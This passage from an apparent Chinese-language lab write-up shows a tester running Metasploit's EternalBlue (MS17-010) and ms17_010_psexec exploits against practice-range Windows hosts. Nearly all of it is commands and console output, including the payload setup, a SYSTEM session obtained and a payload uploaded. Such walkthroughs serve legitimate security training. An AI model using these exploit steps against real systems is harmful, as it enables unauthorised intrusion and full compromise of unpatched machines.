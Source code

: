 3. 使用永恒之蓝攻击靶机
    
    ps：payload需要指定为正向连接，因为是在内网环境，靶机没有通向攻击机的路由
    
    ```python
    msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tc
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.52.138
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
    [*] 192.168.52.138:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 192.168.52.138:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
    [*] 192.168.52.138:445    - Scanned 1 of 1 hosts (100% complete)
    [+] 192.168.52.138:445 - The target is vulnerable.
    [*] 192.168.52.138:445 - Connecting to target for exploitation.
    [-] 192.168.52.138:445 - SMB Negotiation Failure -- this often occurs when lsass crashes.  The target may reboot in 60 seconds.
    [*] Started bind TCP handler against 192.168.52.138:4444
    [*] Exploit completed, but no session was created.
    ```
    
    失败，域控没有拿到shell
    
    ```python
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.52.141
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
    [*] 192.168.52.141:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 192.168.52.141:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2003 3790 x86 (32-bit)
    [*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
    [+] 192.168.52.141:445 - The target is vulnerable.
    [-] 192.168.52.141:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
    [*] Exploit completed, but no session was created.
    ```
    
    提示该模块仅支持`x64`，但是靶机是`x32`的，换了`ms17_010_psexec` ，但是shell死活连不上
    
    ```python
    msf6 exploit(windows/smb/ms17_010_psexec) > run
    
    [*] 192.168.52.141:445 - Target OS: Windows Server 2003 3790
    [*] 192.168.52.141:445 - Filling barrel with fish... done
    [*] 192.168.52.141:445 - <---------------- | Entering Danger Zone | ---------------->
    [*] 192.168.52.141:445 -        [*] Preparing dynamite...
    [*] 192.168.52.141:445 -                Trying stick 1 (x64)...Miss
    [*] 192.168.52.141:445 -                [*] Trying stick 2 (x86)...Boom!
    [*] 192.168.52.141:445 -        [+] Successfully Leaked Transaction!
    [*] 192.168.52.141:445 -        [+] Successfully caught Fish-in-a-barrel
    [*] 192.168.52.141:445 - <---------------- | Leaving Danger Zone | ---------------->
    [*] 192.168.52.141:445 - Reading from CONNECTION struct at: 0x8d666d60
    [*] 192.168.52.141:445 - Built a write-what-where primitive...
    [+] 192.168.52.141:445 - Overwrite complete... SYSTEM session obtained!
    [*] 192.168.52.141:445 - Selecting native target
    [*] 192.168.52.141:445 - Uploading payload... xxjxkZjL.exe
    [*] 192.168.52.141:445 - Created \xxjxkZjL.exe...
    [+] 192.168.52.141:445 - Service started successfully...
    [*] 192.168.52.141:445 - Deleting \xxjxkZjL.exe...
    [*] Started bind TCP handler against 192.168.52.141:4444
    [*] Sending stage (176198 bytes) to 192.168.52.141
    [-] Meterpreter session 3 is not valid and will be closed
    [*] 192.168.52.141 - Meterpreter session 3 closed.  Reason: Died
    ```
    